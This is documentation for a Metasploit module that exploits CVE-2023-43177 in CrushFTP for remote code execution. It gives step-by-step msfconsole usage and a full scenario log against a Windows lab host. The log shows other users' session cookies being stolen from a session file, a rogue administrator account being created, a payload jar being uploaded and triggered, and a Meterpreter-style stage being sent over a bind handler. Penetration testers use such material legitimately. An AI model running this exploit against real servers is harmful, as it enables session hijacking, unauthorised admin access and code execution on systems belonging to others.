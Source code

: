 
## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/crushftp_rce_cve_2023_43177`
1. Do: `set target <target>`
1. Do: `set payload <payload>`
1. Do: `run rhosts=<target address>`


You will need to have an active user's session on the server. For this, you can log into the application with an administrator account or with a non-privileged user. The latter will trigger the privilege escalation routine.
Since the module needs to download the cache session file one or two times, depending on if privilege escalation is required, this can take up to 20 minutes to get remote code execution. So, make sure the user that is authenticated has not logged out or the session timed out until the exploit finishes.


## Options

### SESSION_FILE_DELAY
The delay in seconds between attempts to download the session file (default 30).


## Scenarios

### Target 0 (Java) against CrushFTP version 10.5.0_3 on Windows

#### With an active administrator session
```
msf6 exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.54 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711129530820_ogdYwds2NKkSxZoAGigNyNLtyFrphL
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711129530820_ogdYwds2NKkSxZoAGigNyNLtyFrphL`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711129532554_mudHsRJWeg1AH7x0PyZzux9uffDBOr
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9bce0d5c08-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711129532554_mudHsRJWeg1AH7x0PyZzux9uffDBOr`
[*] Looking for the valid sessions
[*] Found 4 session cookies in the session file
[*] Cookie `1711129187087_HwakJiMBcOOnUrEbe6hgbTuwqH7UVZ` is valid session (username: crushadmin)
[*] Cookie `1711115282718_bh0KMR52mszSUEnVJT7u699mcIIlf3` is not valid
[*] Cookie `1711115284720_HC3QlMqFXpqoY4iSEYzXUJOThVD7SX` is not valid
[*] Cookie `1711115283356_XYu6nd3kaL4zcjtOurFUNXknYprRmu` is not valid
[*] Checking if user crushadmin is an admin (cookie: 1711129187087_HwakJiMBcOOnUrEbe6hgbTuwqH7UVZ)
[+] It is an admin! Let's create a temporary admin account
[+] Administrator account created: username=f605ec51de, password=e5864cea12
[*] [do_login] Logging in with username `f605ec51de` and password `e5864cea12`
[*] Uploading payload .jar file `c32e.jar` to C:/Users/Public/c32e.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.54:4444
[*] Sending stage (57971 bytes) to 192.168.101.54
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_9bce0d5c08-js
```